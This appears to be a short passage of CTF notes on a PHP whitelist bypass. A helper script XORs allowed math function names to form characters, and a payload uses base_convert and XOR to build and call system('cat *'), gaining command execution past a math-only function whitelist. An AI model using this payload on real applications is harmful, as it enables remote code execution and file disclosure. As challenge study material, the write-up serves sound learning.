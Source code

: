 - system
    
    //base_convert(1751504350,10,36) ->system
    
- `空格*的构造`
    
    ```php
    <?php
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    $whitelist2 = [ 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh','abs'];
    
    foreach ($whitelist as $i):
        foreach ($whitelist2 as $k):
        echo $k^$i^" *";
        echo "   " . $i . " " . $k;
        echo "<br/>";
        endforeach;
    endforeach;
    ```
    

**payload:**

base_convert(1751504350,10,36)(base_convert(15941,10,36).(dechex(16)^asinh^pi))
//base_convert(1751504350,10,36) ->system
//base_convert(15941,10,36) -> cat
//system('cat *')

结果

![Untitled](../../CTF赛题/BUU月赛/attachment/PHP%20Trick%2085f5b3dc12ee4d0f8917c3ff2a2f5a7e/Untitled%203.png)
